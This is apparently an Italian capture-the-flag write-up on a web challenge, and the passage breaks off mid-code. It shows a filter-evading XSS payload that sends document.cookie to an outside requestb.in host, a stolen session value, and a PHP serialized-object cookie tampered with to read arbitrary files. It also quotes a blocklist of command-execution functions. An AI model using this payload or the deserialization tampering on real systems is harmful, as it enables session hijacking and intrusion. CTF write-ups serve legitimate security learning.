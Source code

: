 ```html
<scalertript>document.write("<img src=http://requestb.in/xxxxxxx?"+document.cookie+">")</scalertript>
```

Abbiamo utilizzato `scalertript` come tag perché il server filtrava alcune parole chiave, tra cui `alert`. Annidando la stringa in questo modo abbiamo fatto sì che il tag finale risultasse `<script>`.

Il risultato/flag era: `PHPSESSID=7fa26c8192a47a49b9530be18e1310e5`

---
A questo punto abbiamo capito che dovevamo andare oltre e compromettere il webserver tramite una code execution. Dopo aver ottenuto accesso all'area amministrativa del sito, abbiamo notato che andando alla pagina `settings.php` veniva impostato un cookie `editor` che conteneva il base64 di un oggetto PHP serializzato:

```json
O:11:"StyleEditor":3:{s:8:"filepath";s:15:"./css/asset.css";s:8:"fullpath";s:26:"/var/www/CTF/css/asset.css";s:7:"auditor";O:13:"SecurityCheck":2:{s:7:"attacks";a:2:{i:0;s:9:"([.]+\/)/";i:1;s:8:"(\x00)$/";}s:7:"replace";s:2:"./";}}
```

Cambiando i valori di `fullpath` e/o `filepath` era possibile accedere a qualsiasi file su disco. Abbiamo ottenuto il sorgente di [settings.php](https://github.com/jbzteam/CTF/blob/master/HiB17_SpringEdition/settings.php) che ci ha permesso di recuperare facilmente la flag `Double rainbow`.

Il file `settings.php` includeva [editor.php](https://github.com/jbzteam/CTF/blob/master/HiB17_SpringEdition/editor.php) che conteneva i dettagli di come veniva utilizzato l'oggetto `StyleEditor`:

```php
<?php
Class StyleEditor{
    public $filepath;
    public $fullpath;
    public $auditor;
    
    function __construct($fp){
        $this->auditor  = new SecurityCheck;
        $this->filepath = $fp;
        $this->fullpath = $this->get_path();
    }

    [...]    
    
    function __wakeup(){
      $badwords = array(
                     "eval",
                     "passthru",
                     "system","
                     shell_exec",
                     "popen",
                     "preg_match",
                     "preg_replace",
                     "dl",
                     "fwrite",
                     "file_put_contents",
                     "exec",
                     "fputs",
                     "`",
                     "require",
                     "include",
                     "include_once",
                     "require_once"
               );
        foreach ($this->auditor->attacks as $attack) {
         foreach ($badwords as $hackattempt){
```